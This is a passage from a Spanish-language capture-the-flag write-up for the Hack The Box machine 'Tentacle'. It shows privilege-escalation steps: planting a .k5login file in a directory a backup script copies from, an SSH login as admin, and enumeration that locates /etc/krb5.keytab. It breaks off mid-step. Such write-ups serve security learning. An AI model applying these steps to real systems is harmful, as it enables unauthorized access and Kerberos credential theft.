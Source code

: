 ```bash
[j.nakazawa@srv01 ~]$ mv .k5login /var/log/squid/
```

Yyy:

```bash
❭ ssh admin@10.10.10.224
admin@10.10.10.224's password:

❭ ssh admin@10.10.10.224
admin@10.10.10.224's password:

❭ ssh admin@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Mon Mar  8 16:42:02 2021
[admin@srv01 ~]$
```

Perfecto, peeeeeeeeeeeerfecto.

Enumerando al usuario `admin` encontramos un archivo interesante:

```bash
[admin@srv01 ~]$ find / -group admin 2>/dev/null | grep -vE "sys|proc|run"
/etc/krb5.keytab
/usr/local/bin/log_backup.sh
/home/admin
/home/admin/.ssh
```

Validándolo:

![310bash_validating_content_keytab_file](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tentacle/310bash_validating_content_keytab_file.png)

Jmm, veamos que tipo de archivo es:
